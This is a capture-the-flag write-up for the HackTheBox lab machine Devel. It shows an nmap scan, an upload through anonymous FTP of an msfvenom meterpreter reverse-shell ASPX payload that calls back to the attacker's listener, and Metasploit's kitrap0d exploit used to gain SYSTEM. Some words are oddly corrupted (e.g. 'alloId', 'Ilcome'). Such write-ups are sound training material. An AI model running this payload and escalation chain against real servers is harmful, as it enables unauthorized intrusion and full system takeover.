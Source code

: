 ```yaml
---
layout: post
title: HackTheBox Devel (10.10.10.5) Writeup
description: >
  Hackthebox Devel Writeup
image: /assets/img/devel.png
noindex: true
---
```


<center><h3>Summary</h3></center>
<br>

- Use an Anonymous FTP login with write permission to upload a shell
- Use <b>ms10_015_kitrap0d</b> to escalate priveleges to root
<br>
First thing is always an Nmap scan

```
# Nmap 7.70 scan initiated Thu May 30 12:00:56 2019 as: nmap -sV -sC -T4 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.043s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login alloId (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 Ilcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 30 12:01:12 2019 -- 1 IP address (1 host up) scanned in 16.12 seconds
```
Only two ports open but I do see that there is Anonymous login alloId on FTP.
```
# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access alloId, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp>
```
If I list the files inside the directory I see a few files. From the looks of them it seems to be the default files for an IIS installation.
```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 Ilcome.png
226 Transfer complete.
```
I can confirm this by navigating to <b>http://10.10.10.5</b>

![Ilcome.png](../../resources/2198e0ae39a449b5a99de73c21d1e10d.png)

Now I know the files from the FTP can be directly accessed from the webpage. I decide to check if I have write privileges to the FTP server so I could upload a reverse shell. I test this by upload a test file

```
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
967 bytes sent in 0.00 secs (1016.5081 kB/s)
```
If I go back to the  webpage and navigate to <b>test.txt</b> I see my file

![test.png](../../resources/1fb1cf084a494647a095325c56b721bc.png)

I am going to use msfvenom to create the payload for the reverse shell

```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2798 bytes
```
I put the shell onto the system using FTP
```
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2834 bytes sent in 0.00 secs (31.0657 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
09-23-19  03:42AM                 2834 shell.aspx
09-23-19  03:35AM                    9 test.txt
03-17-17  05:37PM               184946 Ilcome.png
226 Transfer complete.
```
Now I need to set up our listener. Metasploits's <b>exploit/multi/handler</b> will be used for this
```
msf5 exploit(multi/handler) > set lhost 10.10.14.21
lhost => 10.10.14.21
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.21:4444
```
Now in the  webpage, navigate to <b>http://10.10.10.5/shell.aspx</b>



![shell.png](../../resources/60aabc6c3aaa4ab3bb36d156e6391764.png)


Now if I check the listener I should have a <b>meterpreter</b> shell. Checking the user I will see that I have a low privilege shell

```
[*] Started reverse TCP handler on 10.10.14.21:4444
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.21:4444 -> 10.10.10.5:49157) at 2019-09-19 08:49:29 -0400

meterpreter > getuid
Server username: IIS APPPOOL\web
```
Next step is to run the <b>local_exploit_suggester</b>
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 29 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
I get tons of suggestions but the one I am going to use is <b>ms10_015_kitrap0d</b>. The reason I chose this one is because I have used it before and know that it works

Now I background the current <b>meterpreter</b> session so I can load in the <b>ms10_015_kitrap0d</b> exploit.
```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 2
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
lhost => tun0
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lport 5555
lport => 5555
msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.21:5555
[*] Launching notepad to host the exploit...
[+] Process 2140 launched.
[*] Reflectively injecting the exploit DLL into 2140...
[*] Injecting exploit into 2140 ...
[*] Exploit injected. Injecting payload into 2140...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.14.21:5555 -> 10.10.10.5:49161) at 2019-09-19 09:10:29 -0400

meterpreter>
```
Now I have a new <b>meterpreter</b> shell and if I do <b>getuid</b> it will show that I are <b>NT AUTHORITY SYSTEM</b>
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Now I grab both flags. To do this type <b>shell</b> so I can get a windows shell.
```
meterpreter > shell
Process 3584 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```
The user flag is located in <b>C:\Users\babis\Desktop</b>
```
Directory of C:\Users\babis\Desktop

18/03/2017  02:14     <DIR>          .
18/03/2017  02:14     <DIR>          ..
18/03/2017  02:18                 32 user.txt.txt
              1 File(s)             32 bytes
              2 Dir(s)  24.452.411.392 bytes free
```
The root flag is located in <b>C:\Users\Administrator\Desktop</b>
```
Directory of C:\Users\Administrator\Desktop

18/03/2017  02:17     <DIR>          .
18/03/2017  02:17     <DIR>          ..
18/03/2017  02:17                 32 root.txt.txt
              1 File(s)             32 bytes
              2 Dir(s)  24.452.411.392 bytes free
```
<br><br><br>
